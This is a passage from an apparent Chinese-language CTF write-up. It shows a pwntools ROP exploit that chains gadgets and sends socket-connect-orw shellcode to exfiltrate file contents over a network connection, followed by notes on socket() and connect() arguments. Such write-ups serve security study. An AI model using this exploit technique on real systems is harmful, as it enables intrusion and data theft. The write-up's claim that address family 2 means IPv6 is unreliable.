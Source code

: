 ```python

#往bss段+0x8写入mov rsi,rsp;ret
payload+=p64(bss_addr+0x10)
payload+=p64(0xc3e68948)+p64(bss_addr+0x8+0x3d)+p64(15)
payload+=p64(magic_gadget_addr)

#执行rep指令
payload+=p64(pop_rdi_addr)+p64(bss_addr+0x50)
payload+=p64(bss_addr+0x8)
payload+=p64(bss_addr)
payload+=socket+connect+orw
payload+=p64(ret_addr)
print('shellcode_length---------->',hex(len(socket+connect+orw)))
print('payload_length------------>',hex(len(payload)))
p.sendline(payload)
p.interactive()
```

![](/upload/img/2706180-20220426103751910-1556922758.png)


# 补充：

## 关于socket和connect的参数

```c
int socket(int domain, int type, int protocol);
```

第一个参数是地址族，也就是IP地址的类型；第二个参数是数据的传输方式；第三个参数是采用的传输协议

这个没什么好说的，我们最后参数采用的分别是2,1,0 即ipv6，面向连接的套接字，TCP传输协议



```c
int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
```

第一个参数是socket函数返回的文件描述符；第二个参数是sockaddr结构体的地址；第三个参数是sockaddr的结构体大小

第一个参数没什么好说的，第二个就很有讲究了，什么是sockaddr结构体？不知道这个怎么写payload？翻一下glibc源码（这个sockaddr结构体位于socket.h这个文件下）

```c
struct sockaddr
  {
    __SOCKADDR_COMMON (sa_);        /* Common data: address family and length.  */
    char sa_data[14];                /* Address data.  */
  };
```
